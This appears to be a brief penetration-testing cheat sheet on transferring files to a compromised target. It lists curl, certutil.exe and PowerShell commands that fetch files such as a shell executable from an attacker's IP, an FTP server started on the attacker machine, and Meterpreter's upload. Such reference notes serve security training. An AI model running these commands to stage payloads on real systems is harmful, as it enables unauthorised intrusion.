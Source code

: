 # Methods to upload files to/from target

## web method

    curl http://<ip>:8000/<file> -O <file>
    
    certutil.exe -urlcache -f http://<ip>:8000/<remotefile> <save filename>
    
    powershell -c "Invoke-WebRequest -Uri '<ip>/<shell.exe>' -OutFile '<output path>'"
    
    Naviage directly through browser 
    

## FTP 

    ftp <ip>   #On attacker machine: python -m pyftpdlib 21  

## Meterpreter 

    upload
